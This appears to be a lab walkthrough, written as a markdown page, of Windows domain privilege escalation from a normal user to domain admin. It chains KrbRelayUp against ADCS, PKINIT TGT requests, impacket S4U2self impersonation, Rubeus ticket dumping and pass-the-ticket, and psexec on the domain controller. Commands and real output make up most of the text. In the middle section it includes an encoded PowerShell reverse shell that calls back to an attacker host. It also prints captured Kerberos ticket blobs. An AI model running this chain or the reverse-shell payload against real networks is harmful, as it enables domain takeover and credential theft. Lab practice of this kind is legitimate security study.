


## KrbRelayUp, PKINIT, S4USelf, Rubeus privesc !!

A windows privesc from a simple user to full domain compromise using KrbRelayUp, S4U2self and Rubeus


## Initial Setup
The DC IP is 192.168.10.10 (DC1.lab.local)
the client windows IP is 192.168.10.12 (Win11E.lab.local)

I have working creds for john who is a normal user without any dangerous rights or privilege. He has a powershell session and adcs is configured on the dc so I can see if its vulnerable to KrbRelayUp or even basics ESC1-8 vulnerabilies.
```bash
.\KrbRelayUp.exe relay -d lab.local -dc DC1.lab.local -m adcs
```



```bash
echo "base64 certificate" | base64 -d > cert.pfx
```


Then using gettgtpkinit.py from the PKINITtools suite with the cert.pfx certificate


```bash

python3 gettgtpkinit.py -cert-pfx cert.pfx \
-dc-ip 192.168.10.10 LAB.local/'Win11E$' \
cert.ccache  
2025-12-05 16:49:22,956 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-12-05 16:49:23,193 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-12-05 16:49:23,201 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-12-05 16:49:23,201 minikerberos INFO     a499407bd09973ab9e676b5993ddbbf3105c79d875f2a26d487c709501dbb6bf
INFO:minikerberos:a499407bd09973ab9e676b5993ddbbf3105c79d875f2a26d487c709501dbb6bf
2025-12-05 16:49:23,203 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```

I can then use this TGT to perform a **S4U2self** impersonnating the local Administrator:

```bash
#exporting the tickets as a environment variables
export KRB5CCNAME=cert.ccache

#listing it to make sure that it worked

klist
Ticket cache: FILE:cert.ccache
Default principal: Win11E$@LAB.LOCAL

Valid starting       Expires              Service principal
12/05/2025 16:49:23  12/06/2025 02:49:23  krbtgt/LAB.LOCAL@LAB.LOCAL

# performing S4U2self

impacket-getST -self -impersonate "Administrateur" -altservice "cifs/Win11E.lab.local" -k -no-pass -dc-ip 192.168.10.10 "lab.local"/'Win11E$'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrateur
[*] Requesting S4U2self
[*] Changing service from Win11E$@LAB.LOCAL to cifs/Win11E.lab.local@LAB.LOCAL
[*] Saving ticket in Administrateur@cifs_Win11E.lab.local@LAB.LOCAL.ccache

# exporting newly received ticket

export KRB5CCNAME=Administrateur@cifs_Win11E.lab.local@LAB.LOCAL.ccache
```


We can then get a shell on the box as the local admin (impacket-psexec had some weird error so I just used nxc and a simple reverse shell)


```bash
nxc smb 192.168.10.12 --use-kcache -x 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEAMAAuADEAMQAiACwAOQAwADAAMgApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA='
SMB         192.168.10.12   445    WIN11E           [*] Windows 11 / Server 2025 Build 26100 x64 (name:WIN11E) (domain:lab.local) (signing:True) (SMBv1:None)
SMB         192.168.10.12   445    WIN11E           [+] lab.local\Administrateur from ccache (Pwn3d!)
SMB         192.168.10.12   445    WIN11E           [-] WMIEXEC: Dcom initialization failed on connection with stringbinding: "ncacn_ip_tcp:WIN11E.lab.local[62569]", please increase the timeout with the option "--dcom-timeout". If it's still failing maybe something is blocking the RPC connection, try another exec method
SMB         192.168.10.12   445    WIN11E           [+] Executed command via atexec
```

```bash
connect to [192.168.10.11] from (UNKNOWN) [192.168.10.12] 58176
whoami
autorite nt\syst?me
```


## Now lets become domain admins :

Maybe the domain admins logged on this current machine, lets see using Rubeus to dump tickets :

```bash
.\Rubeus.exe dump /nowrap /user:Administrateur /service:krbtgt
```

The admins did logged in, I can now use the administrator cached ticket trough pass the ticket (ptt) !!! (we can already say that we are domains admins haha)

```bash
.\Rubeus.exe renew /ticket:doIFxDCCBcCgAwIBBaEDAgEWooIEzDCCBMhhggTEMIIEwKADAgEFoQsbCUxBQi5MT0NBTKIeMBygAwIBAqEVMBMbBmtyYnRndBsJTEFCLkxPQ0FMo4IEijCCBIagAwIBEqEDAgECooIEeASCBHRm5d+YqKbVNaBO44mhBJiQ+102TWQAeSVRkpdSWbP6bA5tQgwr7JFKJ686mWG/c6L0dtNgFY/gHAZg1yrWUqMUDrL7qr3Sd2RCQiYPg9ExpzKvF+HkAis4iCm02EP0ZfEU69YfIZqq2LjBod1f4cmMhkcsglnMz1npIRXAicmiFIoOEZVT4uwkzQVXdCrZnCSnvczS3StFf2/ybxM9ArNp7gN1puVwCpKFfPyr1g1tpqo1s4tRKI87XTFTLe6kwZ1iT+la/S0XSO+YVmGi6H+WpdP17np1uo6X/nWbUfa4lh1uy+XItSYbd66h8VoxNxabhRp+G2n+FKhaXojfcwTtguQ7ORTmt8evXmqSoHi1BOGoSCSs+ijRjavXIJj2Dqfg1cORkKBOgQSa3vsUdI1nzEGYEW8a2u/SQZvAHjYqmw4DSEa1RI+izbmAOb0dOrmX1mvRrddanzpC2+fcAjRyv2DtGp/3NsBo/AFj+92SRAGtzcZx/i+s0KASyzET3NFIvioZBnmmZlpoT4vtVqeDaAH5u3PFa2hlTBgXlDbn3qLTiHbeKCE8uG/lLBIexIInLM1KZICW3FFQWWmRFZ3rxJnMFUubRhNiHWZKlyZ/9cHL2cx9xvuyq6rFJV6wXjMwJVBI67S7uy5L/19ycbBYhh49l6EPzgMgCelOQ918hRlHSvjaSCSvakxUcwXfRRe4zRH/tn7lxbb/O/fXN4eFZa8mBaGh4RwPL3uBL3GiSTTOYWsOJOPYcTYf6ZyE9gsRV2Tp7kQKvB1v8yBo7LmPPgQCINueJetvxcZwhNA1GudIQy/XnyH6PFiYQzAvANCW3avfJQYT9NopFmR5HySYx+chzOaMzVlj/UpOsAtvcFOj7k7B/CMjxpIhrGIiOc79i4wg5qpRs2DwYEVy8eh2aNAnVfkhNq5U790ilCtFKTxitV2id8ccPomBlpZF/6M+zV2kq79fpeNzsYecYVgzBlDMIqcigbwXNgWCvBqGeK91X/ucqGU7jPu/GY/Om1Dtk7NXXxihsS3kRmBy6kRQ5U+YSvCWODxY3wRB+nshX4Ctpxm4M4yEZkhQEV1t7e/X67jQBiMTPpbrPqvydggfzNLhBiJ2bBXr9NF/ZMv/yvkWfJQKyvEzuRFRSjEM+SALTuIYjRSk2tykc3sAaWVJeuc4Rlc0bQC3SLWRJzlDafr1PSadJJYRbEzDrQom+TqNhh98GBSFG4dQtfw+3Qbh9vI1S1dgSrZFOZSkpKVRtHQDlQq+dw/LU+D8U7QAnA+YUkSvhy9V+EnSCJ47O8hC7DTGe6Oez8WmBcSCNOVURk5fFAm5JDLyVoV8lSpmxPIBjbkZitff0ZIU6d4RM1al5rIxpaKUub/ron3oJERH1Eg5wHt2vhfZjvdaBLjE1JYL3bjZL2lboNUHEkk6xyDnq/Sc20+3Y9JDYOsz/r+kZoJCpyjh8cwiN5k7hW3j7tMcQmm5/j/j60HUjeQBsuWfVlSb7Ore3GWBykv8z4c9DvNeDa6jgeMwgeCgAwIBAKKB2ASB1X2B0jCBz6CBzDCByTCBxqArMCmgAwIBEqEiBCCfpDA+n5eAqyfomryLM9ggFS+HTIZzE1G3H7uNU8zMSaELGwlMQUIuTE9DQUyiGzAZoAMCAQGhEjAQGw5BZG1pbmlzdHJhdGV1cqMHAwUAQOEAAKURGA8yMDI1MTIwNTIyNTUzNVqmERgPMjAyNTEyMDYwODU1MzVapxEYDzIwMjUxMjEyMjI1NTM1WqgLGwlMQUIuTE9DQUypHjAcoAMCAQKhFTATGwZrcmJ0Z3QbCUxBQi5MT0NBTA== /ptt


[*] Action: Renew Ticket

[*] Using domain controller: DC1.lab.local (192.168.10.10)
[*] Building TGS-REQ renewal for: 'LAB.LOCAL\Administrateur'
[+] TGT renewal request successful!
[*] base64(ticket.kirbi):

      doIFxDCCBcCgAwIBBaEDAgEWooIEzDCCBMhhggTEMIIEwKADAgEFoQsbCUxBQi5MT0NBTKIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJTEFCLkxPQ0FMo4IEijCCBIagAwIBEqEDAgECooIEeASCBHS0vcPPEsQkRGpP
      cwvFmHwLLmFI4ys7HgzjbIMzx19UmTWzYZuIWgxD9dXtKpEQPUM6uWbAhw6jj4SR5fTFAJDdDtBnvUKV
      HY3FSR3NEXlYlNaIbpi0PinYbdbW71CIc/7Gw+dUSgxZ9V7nkRo+5BsnGhVvl0HNAji9x5eqosOaJnmQ
      MULmmk3ae66qtZFR5LKDO+d6PLMb9V3vohBeDSbaHa8K8hE4lO8sUGHBRhfF1bEZE4+pn6lYdyaiCACb
      7RGW7OVkcA7BPYk/etZaKTlFh2bN+ABaiOf2zyyVoevQU4TAxhaBtXGNTWwWSX70gbKeSqyIdxbalctQ
      mUA6xqJQnEPCBFgR5apnMwJwkNAyfY4TzhPxegxwsZZvNAm+2ifjxqykhC5gqpXNXehl4BIV/m+wi0Ik
      TrPOlzkPQb4PhH1COBtzqeVAxQEuuw0N69vdJDkyDf5HT1V7nPz39KY+fBWeqo7Uh8Z8NS7w4Qe/KxGq
      nf5pd60ETROhMGix+MXBftGLracFUbZeqATkpLdtCW2y9DwthG9N3n5U15/t87sOtMj3Ed8tr1liO58y
      dByxfxUpKrjwaNCj3qhGtcTDxqkxa7amJtiQEfBuB+fXVBgXys4XrtlbvBzTk4qdtj1lKaakcyXQueZq
      FvshjUjSZo/rHfnXbfhe5bEVkKDw1RqqEUbS9se2ODc8EccAxcw3hJQdrGbN9Xy7bJCp2xKBM9/iGbHZ
      3sj4VVlT1k4ezpBRX317h6NGjShv72cLQYqrMu1lP+pL9My307q/74Z+jh6wXcQabqn41VcsgIWubJrv
      A/MKpJ98QAjhXfhQ1owZRG2rl5JqQGpA4FoYZxaix65i1LjbSS994vDWiaolPjZx4aFwRZffZ6PY+Duc
      pfROd3xPKCTI4BH5fUyzoQkqIb00f4+RyKlzVJwZZehb7xFcquFrZRYU8hzR1JZ1tyAZ3uarQrl3LhVl
      wjx5raxQTd4yGzThw1pjfCdk6isqMYFR5Hi0zk4k9SmfwbxzHJa+UBHbxAtt4JPaFT/fE899JvoJZ0kK
      EO01u+Ty4GVCtmG36g4sp7VWEwMvp+Yl+z4iys0qZVIbPsqWW32kIFnMCmTo7VuOj2p3TRs63mbzFimE
      UVlcfmKt7KkZoIpco+FwDEN8QNVhx2dTzGmNVuaj03lapAXuszAdJ0IBvdK2beN4G2ew0OzSfcBcromu
      RK3bPhlQfzHgr6oJzFD1DAktu+P0YlY0ry054r+FlGer31hFAfTh6YFFiWXK8+LOgm9555VPHlsqkvQs
      b6J4I4x6I9fZsveEhWHwIUCNqzcYM5AIHF12rDPc2aOY4UzlGZWBXTiyPYIYiLg5wCemeRc5lj2pc4zO
      5lv/fAsCebhVhaPilAIHbYsfCLp9WnFFd+/kku50R+N76R3Jez+DoeSBHfnQaWnn+SRBoHaAa878RSsv
      TSSR3cEiRBJ0N/6FLtKsb5URzohbTcvaDbns/vcQ7a6qheR2Tz2jIpWVbXQtWEL6dpajgeMwgeCgAwIB
      AKKB2ASB1X2B0jCBz6CBzDCByTCBxqArMCmgAwIBEqEiBCCfpDA+n5eAqyfomryLM9ggFS+HTIZzE1G3
      H7uNU8zMSaELGwlMQUIuTE9DQUyiGzAZoAMCAQGhEjAQGw5BZG1pbmlzdHJhdGV1cqMHAwUAQOEAAKUR
      GA8yMDI1MTIwNTIyNTgxOVqmERgPMjAyNTEyMDYwODU4MTlapxEYDzIwMjUxMjEyMjI1NTM1WqgLGwlM
      QUIuTE9DQUypHjAcoAMCAQKhFTATGwZrcmJ0Z3QbCUxBQi5MT0NBTA==
[+] Ticket successfully imported!
```
Now I will convert this base64 kirbi ticket into a .ccache file and use it on my attacker machine and export it as the KRB5CCNAME environment variable then I will just impacket-psexec using the exported .ccache

```bash

impacket-psexec -k lab.local/Administrateur@DC1.lab.local -no-pass -codec 850
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on DC1.lab.local.....
[*] Found writable share ADMIN$
[*] Uploading file uVxJeCAS.exe
[*] Opening SVCManager on DC1.lab.local.....
[*] Creating service stMz on DC1.lab.local.....
[*] Starting service stMz.....
[!] Press help for extra shell commands
Microsoft Windows [version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. Tous droits réservés.

C:\Windows\system32> whoami
autorite nt\système

C:\Windows\system32> whoami /groups
 
Informations de groupe
----------------------

Nom du groupe                                    Type              SID          Attributs                                               
================================================ ================= ============ ========================================================
BUILTIN\Administrateurs                          Alias             S-1-5-32-544 Activé par défaut, Groupe activé, Propriétaire du groupe
Tout le monde                                    Groupe bien connu S-1-1-0      Groupe obligatoire, Activé par défaut, Groupe activé    
AUTORITE NT\Utilisateurs authentifiés            Groupe bien connu S-1-5-11     Groupe obligatoire, Activé par défaut, Groupe activé    
Étiquette obligatoire\Niveau obligatoire système Nom               S-1-16-16384                                                         

C:\Windows\system32> 

```

We are now **Domain Admins** !!!!


